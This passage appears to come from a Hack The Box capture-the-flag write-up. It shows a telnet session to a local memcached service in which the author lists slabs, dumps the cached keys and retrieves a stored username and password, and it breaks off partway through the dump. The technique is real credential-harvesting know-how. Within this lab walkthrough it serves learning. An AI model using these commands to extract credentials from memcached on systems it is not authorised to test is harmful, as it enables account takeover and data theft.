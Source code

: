     
    
    ash@cache:~$ telnet 127.0.0.1 11211
    Trying 127.0.0.1...
    Connected to 127.0.0.1.
    Escape character is '^]'.
    version
    VERSION 1.5.6 Ubuntu
    

`stats slabs` gives information about the various slabs. In this case, there’s
only one in use, 1:

    
    
    stats slabs
    STAT 1:chunk_size 96
    STAT 1:chunks_per_page 10922
    STAT 1:total_pages 1
    STAT 1:total_chunks 10922
    STAT 1:used_chunks 5
    STAT 1:free_chunks 10917
    STAT 1:free_chunks_end 0
    STAT 1:mem_requested 371
    STAT 1:get_hits 5
    STAT 1:cmd_set 285
    STAT 1:delete_hits 0
    STAT 1:incr_hits 0
    STAT 1:decr_hits 0
    STAT 1:cas_hits 0
    STAT 1:cas_badval 0
    STAT 1:touch_hits 0
    STAT active_slabs 1
    STAT total_malloced 1048576
    END
    

I can see what’s in the cache with `stats cachedump x y`, where `x` is the
slab number I want and`y` is the number of keys I want to dump, where 0 is
all.

    
    
    stats cachedump 1 0
    ITEM link [21 b; 0 s]
    ITEM user [5 b; 0 s]
    ITEM passwd [9 b; 0 s]
    ITEM file [7 b; 0 s]
    ITEM account [9 b; 0 s]
    END
    

Obviously `user` and `passwd` seem the most interesting, but I’ll dump each
with `get`:

    
    
    get link
    VALUE link 0 21
    https://hackthebox.eu
    END
    get user
    VALUE user 0 5
    luffy
    END
    get passwd
    VALUE passwd 0 9
    0n3_p1ec3
    END
    get file
    VALUE file 0 7